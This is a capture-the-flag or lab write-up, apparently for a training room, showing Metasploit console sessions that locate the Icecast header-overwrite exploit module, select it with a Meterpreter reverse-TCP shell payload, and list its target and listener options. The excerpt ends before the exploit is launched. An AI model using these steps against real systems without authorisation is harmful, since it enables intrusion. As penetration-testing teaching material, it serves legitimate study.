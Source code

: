 
### After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in 'RP: Metasploit' which is recommended to be completed prior to this room, although not entirely necessary. 
```
msf6 > search icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header
```

`exploit/windows/http/icecast_header`



### Let's go ahead and select this module for use. Type either the command `use icecast` or `use 0` to select our search result.
```
msf6 exploit(windows/http/icecast_header) > use 0
[*] Using configured payload windows/meterpreter/reverse_tcp
```


###  Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?
```
msf6 exploit(windows/http/icecast_header) > show options

Module options (exploit/windows/http/icecast_header):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     MY_IP       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```